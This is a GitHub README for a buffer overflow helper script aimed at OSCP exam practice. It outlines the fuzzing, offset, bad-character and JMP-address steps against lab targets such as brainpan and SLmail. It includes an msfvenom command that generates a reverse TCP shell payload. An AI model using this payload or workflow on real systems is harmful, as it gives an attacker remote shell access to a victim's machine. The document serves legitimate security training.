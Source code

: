 # Buffer Overflow Assistant 2 (BOA2) 
## What is this

This was originally built to assist with Windows Buffer Overflows, primarily for the OSCP Exam. It has been updated by Rob Hughes (Independent Info-Sec Consultants) to be more stable and easier to use for the exam. 

## What it does

This provides a menu with options from 1-7 which allow you to execute certain tasks in the correct oder.  

Example - fire a for loop of A's to find out how many crash the service.  
Example - send bad characters, you can then manually check to see what needs to be removed
Example - utilises patternCreate to find the offset value.

## How to Use
The script will need modifying, there sections that need to be modified are commented out in the script. This is typically where the unique PoC causing the overflow will need to be written to.

The following elements need to be updated

### 1. The JMP or equiv address (the old script only looked for a JMP address, which may not exist)

### 2. The shell code - the original would crash most executables as it didn't exit on a thread. If your executable is a windows app running on Linux - just update the schell code to use this 

msfvenom -p linux/x86/shell/reverse_tcp LHOST=IP_Address LPORT=4444 EXITFUNC=thread -b "\bad_characters" -f c -a x86

### 3. The bad characters - a Better explanation on how to do this using the mona script. 

It's not designed to work on modern executables using DEP etc, this has been tested and works with brainpan and with modification, will work with SLmail (which are the types of executables you will find on the OSCP, pretty simple really) 

It should take you about 30 minutes to an hour to complete the buffer overflow rig, leaving you more time to try harder on the other rigs ..... 

